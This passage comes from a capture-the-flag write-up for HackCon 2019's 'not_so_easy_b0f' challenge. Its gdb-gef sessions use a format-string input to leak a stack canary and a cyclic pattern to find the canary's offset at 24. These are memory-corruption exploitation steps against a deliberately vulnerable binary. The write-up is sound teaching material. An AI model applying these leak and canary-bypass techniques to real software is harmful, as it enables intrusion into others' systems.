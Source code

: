 ```sh
gef➤  b *main+164
Breakpoint 1 at 0x81e

gef➤  run
Starting program: /ctf/pwns/hackcon2019/pwn/not_so_easy_b0f/b0f
Enter name : %11$lx %19$lx  # <-- output both the stack values at offset 11 and 19
Hello
8a77361ff18fd600 76948517c6ba18b
Enter sentence : AAAA

<-- TRUNCATED -->

Breakpoint 1, 0x000055555555481e in main ()

gef➤  p $rcx
$1 = 0x8a77361ff18fd600  # <-- matches value at offset 11, thus our stack canary
```

Finally, we need to figure out the offset to the stack canary. Again, using gdb gef and `pattern create`, we simply create a unique pattern of 100 characters and send this as input when we are asked to enter a sentence. We break on the `xor rcx,QWORD PTR fs:0x28` instruction at `main+164`, and check the value of the `rcx` register. We see its value is `0x6161616161616164`, and using `pattern offset` to find the offset, we see that it is at offset 24.

```sh
gef➤  b *main+164
Breakpoint 1 at 0x81e

gef➤  pattern create 100
[+] Generating a pattern of 100 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'

gef➤  run
Starting program: /ctf/pwns/hackcon2019/pwn/not_so_easy_b0f/b0f
Enter name : AAAA
Hello
AAAA
Enter sentence : aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

<-- TRUNCATED -->

Breakpoint 1, 0x000055555555481e in main ()

gef➤  p $rcx  # <-- Check the value of rcx since we know we overwrote the stack canary, which is now in rcx
$1 = 0x6161616161616164

gef➤  pattern offset 0x6161616161616164
[+] Searching '0x6161616161616164'
[+] Found at offset 24 (little-endian search) likely
[+] Found at offset 17 (big-endian search)
```
